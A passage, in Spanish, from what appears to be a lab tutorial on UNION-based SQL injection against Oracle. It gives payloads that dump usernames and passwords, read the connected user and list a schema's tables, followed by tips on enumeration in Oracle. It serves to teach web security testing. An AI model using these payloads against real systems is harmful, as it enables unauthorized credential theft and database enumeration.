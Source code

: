 Si la aplicación tiene una tabla `users` propia:

```sql
' UNION SELECT username, password FROM users--
```

**Explicación:** Esto asume que existe una tabla de aplicación `users` con columnas `username` y `password`. Si la primera columna no admite texto, usar `NULL, username || ':' || password` o ajustar tipos según sea necesario. Para bases de datos Oracle, concatenamos con `||` y podemos convertir tipos si es necesario.

---

## Usuario conectado a la actual base de datos

```sql
' UNION SELECT NULL, USER FROM DUAL-- -
```

![Captura](./Imágenes/web_19.png)


---

## Tablas del schema

```sql
' UNION SELECT NULL, (SELECT LISTAGG(table_name, ',') WITHIN GROUP (ORDER BY table_name) 
FROM all_tables WHERE owner = 'PETER') FROM DUAL-- -

```
![Captura](./Imágenes/web_18.png)


---

## Consideraciones y buenas prácticas pedagógicas

- En Oracle debemos prestar especial atención a:
    
    - Tipos de columnas: Oracle es más estricto en algunas situaciones (VARCHAR2 vs NUMBER).
        
    - Mayúsculas en nombres de objetos: muchos metadatos aparecen en mayúsculas.
        
    - Privilegios: ciertas vistas (`V$*`) requieren privilegios especiales.
        
    - Funciones específicas: `LISTAGG`, `ROWNUM`, `ROW_NUMBER()`, `HEXTORAW`, `UTL_RAW` son herramientas Oracle comunes para enumeración.
        
    
- Para automatizar enumeración en Oracle conviene probar ambas técnicas de paginación (`ROWNUM` y `OFFSET/FETCH`) y tener plantillas que manejen la conversión de hex cuando la entrada está filtrada.
    

---
